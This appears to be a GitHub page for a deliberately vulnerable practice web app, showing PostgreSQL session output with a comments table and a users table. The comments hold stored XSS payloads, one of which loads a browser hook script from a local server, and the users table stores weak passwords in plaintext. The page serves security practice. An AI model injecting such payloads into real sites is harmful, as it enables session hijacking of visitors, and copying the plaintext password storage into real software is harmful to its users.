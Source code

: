 Java 21
Postgresql:
bce@BCEs-MacBook-Air ~ % psql -U bce -d break_code_engine
psql (15.10 (Homebrew))
Type "help" for help.

break_code_engine=# \list
                                             List of databases
       Name        | Owner | Encoding | Collate | Ctype | ICU Locale | Locale Provider | Access privileges 
-------------------+-------+----------+---------+-------+------------+-----------------+-------------------
 break_code_engine | bce   | UTF8     | C       | C     |            | libc            | 
 postgres          | bce   | UTF8     | C       | C     |            | libc            | 
 template0         | bce   | UTF8     | C       | C     |            | libc            | =c/bce           +
                   |       |          |         |       |            |                 | bce=CTc/bce
 template1         | bce   | UTF8     | C       | C     |            | libc            | =c/bce           +
                   |       |          |         |       |            |                 | bce=CTc/bce
(4 rows)

break_code_engine=# \du
                                   List of roles
 Role name |                         Attributes                         | Member of 
-----------+------------------------------------------------------------+-----------
 bce       | Superuser, Create role, Create DB, Replication, Bypass RLS | {}

break_code_engine=# \dt
         List of relations
 Schema |   Name   | Type  | Owner 
--------+----------+-------+-------
 public | comments | table | bce
 public | users    | table | bce
(2 rows)

break_code_engine=# 


<img width="918" alt="Screenshot 2025-01-01 at 17 37 28" src="https://github.com/user-attachments/assets/571d655c-3f5d-47c5-80b7-800bebd5858a" />












break_code_engine=# select * from comments;
 id |                         text                          
----+-------------------------------------------------------
 22 | test
 23 | Bce
 24 | <script>alert("XSS attack")</script>
 25 | TEST
 26 | <script src="http://127.0.0.1:3000/hook.js"></script>
(5 rows)

break_code_engine=# 
break_code_engine=# truncate table comments;
TRUNCATE TABLE
break_code_engine=# select * from users;
 id | password | username 
----+----------+----------
  4 | password | admin
  5 | pass123  | user1
  6 | welcome  | user2
(3 rows)

<img width="433" alt="Screenshot 2025-01-14 at 20 59 44" src="https://github.com/user-attachments/assets/dd24b1bd-5cd0-4006-86fb-94a502fa7881" />


